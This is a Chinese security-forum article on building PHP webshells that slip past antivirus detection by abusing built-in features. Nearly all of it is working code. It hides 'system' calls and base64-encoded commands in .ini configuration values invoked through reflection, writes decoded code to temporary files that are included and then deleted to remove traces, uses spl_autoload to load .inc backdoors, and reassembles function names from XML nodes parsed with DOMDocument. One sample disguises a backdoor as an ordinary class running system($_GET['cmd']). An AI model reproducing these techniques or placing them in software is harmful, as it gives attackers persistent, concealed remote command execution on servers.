





# 基于 PHP 内置类及函数的免杀 WebShell-先知社区

> **来源**: https://xz.aliyun.com/news/17295  
> **文章ID**: 17295

---

# 前言

PHP 作为广泛使用的服务端语言，其灵活的内置类（如 DOMDocument）和文件操作机制（.ini、.inc 的自动加载），为攻击者提供了天然的隐蔽通道。通过 **动态函数拼接**、**反射调用**、**加密混淆** 和 **伪命名空间** 等手法，恶意代码得以“寄生”于正常的业务逻辑中，甚至借助析构函数、自动加载等机制实现 **无文件化触发**。这种“隐写术”般的攻击方式，不仅挑战了传统检测技术的边界，也对开发者和安全团队提出了更高维度的防御要求。

本文将以 **PHP 内置类与文件操作** 为核心，深度剖析攻击者如何将 XML 解析、配置加载、自动包含等“合法”功能武器化，构建出零特征、高动态的免杀 WebShell。

# 利用parse\_ini\_file函数

PHP中有一个名为parse\_ini\_file的函数，用于解析.ini文件 ， 如果Webshell的代码隐藏在.ini文件的某些配置项中，然后通过解析这些配置项来动态执行代码。

#### **动态函数调用 + 反射执行**

创建一个.ini文件，其中包含恶意代码的字符串

```
// [payload]
// func_name = "system"
// encoded_cmd = "d2hvYW1p"  // base64("whoami")
```

代码：

```
class ConfigLoader {
    private $config;

    public function __construct($file) {
        $this->config = parse_ini_file($file, true); // 解析 .ini 文件
        $this->execute();
    }

    private function execute() {
        $func = $this->config['payload']['func_name'];
        $cmd = base64_decode($this->config['payload']['encoded_cmd']);
        
        // 使用反射动态调用函数
        $reflection = new ReflectionFunction($func);
        $reflection->invoke($cmd);
    }
}

new ConfigLoader('config.ini'); // 触发执行
```

* 敏感函数名（system）和指令（whoami）均存储在 .ini 文件中，避免代码硬编码。
* 使用 **反射（ReflectionFunction）** 间接调用函数，绕过静态检测。

#### **临时文件写入 + 包含执行**

.ini文件

```
[payload]
encoded_code = "PD9waHAgc3lzdGVtKCd3aG9hbWknKTsgPz4="
```

```
<?
class TempFileExecutor {
    private $code;

    public function __construct($iniFile) {
        $config = parse_ini_file($iniFile);
        $this->code = base64_decode($config['encoded_code']);
        $this->run();
    }

    private function run() {
        $tempFile = tempnam(sys_get_temp_dir(), 'tmp_');
        file_put_contents($tempFile, $this->code);
        include $tempFile;    // 包含临时文件执行代码
        unlink($tempFile);    // 清理痕迹
    }
}

new TempFileExecutor('evil.ini');
```




# 利用spl\_autoload 函数

#### **函数定义**

```
spl_autoload(string $class_name, string $file_extensions = null): void
```

* **参数**：

* $class\_name：需要加载的类名。
* $file\_extensions（可选）：指定文件扩展名（如 .php,.inc），默认使用 include\_path 中的配置。

#### **行为逻辑**

1. 将类名 $class\_name 转换为小写（若系统区分大小写则保留原大小写）。
2. 按 $file\_extensions 指定的扩展名，在 include\_path 目录下查找文件。
3. 找到文件后自动包含（include\_once）该文件。

1.inc文件

```
<?php system("whoami"); ?>
```

1.php

```
<?php spl_autoload("1"); ?>
```

1. spl\_autoload("1") 尝试加载类名为 nb 的文件。
2. 按默认规则查找 nb.php 或 1.inc，发现 1.inc 存在。
3. 包含 1.inc 并执行 webshell，输出服务器配置信息。

**关键点**：

* spl\_autoload 不仅用于加载类，**直接调用时也可触发文件包含**。
* 文件扩展名（.inc）和类名（1）需匹配，但文件内容无需严格包含类定义。

#### **伪装类文件 + 动态执行**

payload.inc

```
<?php
class Payload { // 伪装成合法类
    public static function run() {
        system($_GET['cmd']); // 恶意代码
    }
}
```

1.php

```
<?php
spl_autoload("payload"); // 加载 Payload 类
if (class_exists('Payload')) {
    Payload::run(); // 触发恶意代码
}
```



# 利用**DOMDocument类**

DOMDocument 是 PHP 中用于处理 **XML** 和 **HTML** 文档的核心类。它基于 W3C 的 DOM（Document Object Model）标准，提供了一套完整的 API，允许开发者以树形结构操作文档节点（如元素、属性、文本等）。，支持XPath查询和动态节点解析 （php版本>8.0)

## 常用方法

|  |  |  |
| --- | --- | --- |
| 方法名 | 功能说明 | 示例 |
| createElement($name, $value) | 创建元素节点 | $element = $dom->createElement('tag', 'content') |
| createAttribute($name) | 创建属性节点 | $attr = $dom->createAttribute('id') |
| getElementsByTagName($name) | 通过标签名获取节点列表 | $items = $dom->getElementsByTagName('item') |
| getElementById($id) | 通过 ID 获取单个元素（需 DTD 验证） | $node = $dom->getElementById('main') |
| saveHTML() | 输出 HTML 格式字符串（处理 HTML 文档时） | $html = $dom->saveHTML() |
| validate() | 验证文档是否符合 DTD/XSD | if ($dom->validate()) { ... } |

## 解析 XML 数据

```
<?php
$xml = <<<XML
<?xml version="1.0"?>
<books>
    <book id="1">
        <title>PHP Basics</title>
        <author>John Doe</author>
    </book>
</books>
XML;

$dom = new DOMDocument();
$dom->loadXML($xml);

// 遍历所有 <book> 节点
foreach ($dom->getElementsByTagName('book') as $book) {
    $title = $book->getElementsByTagName('title')->item(0)->nodeValue;
    $author = $book->getElementsByTagName('author')->item(0)->nodeValue;
    echo "Title: $title, Author: $author
";
}
```

输出：



这里我们可以提取xml里面各节点的内容，这样的话，我们就可以把恶意字符串隐藏在xml文件里面

```
<?php
// 恶意 XML 数据（可远程加载或硬编码）
$xml = <<<XML
<root>
    <data>whoami</data>
</root>
XML;

$doc = new DOMDocument();
$doc->loadXML($xml);  // 解析 XML
$xpath = new DOMXPath($doc);
$node = $xpath->query('//data')->item(0); // 提取节点值

// 动态调用高危函数（避免直接写 system）
$func = 'sys' . 'tem';
$func($node->nodeValue);  // 执行系统命令
?>
```



## 将恶意字符串完全隐藏在 XML 文件中

1.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <!-- 函数名分块存储 -->
    <function>
        <part>sys</part>
        <part>tem</part>
    </function>
    <!-- 参数使用 Base64 编码 -->
    <data>d2hvYW1p</data> <!-- Base64("whoami") -->
</config>
```

1.php

```
<?php
// 加载外部 XML 文件（可替换为远程 URL）
$xml = file_get_contents('malicious.xml');

// 解析 XML
$doc = new DOMDocument();
$doc->loadXML($xml);
$xpath = new DOMXPath($doc);

// 提取分块函数名并拼接
$funcParts = $xpath->query('//function/part');
$func = '';
foreach ($funcParts as $part) {
    $func .= $part->nodeValue; // 拼接为 "system"
}

// 提取并解码参数
$dataNode = $xpath->query('//data')->item(0);
$arg = base64_decode($dataNode->nodeValue); // 解码为 "whoami"

// 动态调用（增加安全验证）
if ($func && $arg && function_exists($func)) {
    ($func)($arg); // 执行 system("whoami")
} else {
    error_log("配置错误或函数不可用"); // 伪装成普通错误日志
}
?>
```


